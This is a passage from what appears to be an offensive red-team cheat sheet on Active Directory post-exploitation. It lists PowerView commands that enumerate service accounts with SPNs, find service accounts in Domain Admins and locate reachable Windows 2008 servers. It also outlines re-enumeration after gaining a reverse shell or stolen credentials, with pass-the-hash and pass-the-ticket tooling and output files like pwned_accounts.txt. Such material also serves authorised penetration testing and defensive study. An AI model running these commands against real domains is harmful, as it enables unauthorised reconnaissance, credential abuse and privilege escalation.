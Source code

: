 * snippet to reset **$ztarg_creds** in [/sys/powershell#pscredential](/sys/powershell#pscredential)


#### <a name='shoot-spns'></a>shoot-spns

T1046 SERVICES LOOTS

References:
- [https://attack.mitre.org/techniques/T1046](https://attack.mitre.org/techniques/T1046/)

```powershell
# find all users with an SPN set (likely service accounts)
Get-NetUser -SPN -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select name, description, lastlogon, badpwdcount, logoncount, useraccountcontrol, memberof

# wsman
# mssqlsvc
sed 's/MSSQLSvc\/\([a-z,A-Z,0-9]*\)\(\.contoso\.corp:\|:\)\?\(.*\)/\1/g' mssql_instances_shorted.txt | sort -u > mssql_servers_shorted.txt

# find all service accounts in "Domain Admins"
Get-DomainUser -SPN -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ?{$_.memberof -match 'Domain Admins'}

# find all Win2008 R2 computers (likely servers) and IP/ICMP reachable
Get-NetComputer -OperatingSystem "Windows 2008*" -Ping -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
```


## <a name='iter'></a>iter

ITER(ated) Enumeration:

To ITERate when owning new privileges (new reverse-shell, new account with new user groups): 
- powershell: spawn a shell, [generate PS Credential object](/sysadmin/sys-win-ps-useful-queries/#PSCredentialinitialization), Rubeus PTT
- impacket : PTH, PTT, clear password

```powershell
# rshell variables
iex ($zdom_fqdn="")
iex ($zdom_dc_fqdn="")
```

### <a name='iter-sid'></a>iter-sid
```powershell
whoami /priv
wmic useraccount where name=$ztarg_user_name get sid
```

### <a name='iter-memberof'></a>iter-memberof
```powershell
# identify if the new account is 'memberof' new groups
get-netgroup -MemberIdentity $ztarg_user_name -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select cn | ft -autosize >> .\grp_xxx.txt

# identify if the new account is 'memberof' new groups 
get-netuser -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount | ft -autosize | Sort-Object -Descending -Property whenCreated >> .\auth_xxx.txt
get-content pwned_accounts.txt | get-netuser -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount | ft -autosize | Sort-Object -Descending -Property whenCreated >> .\auth_xxx.txt
```
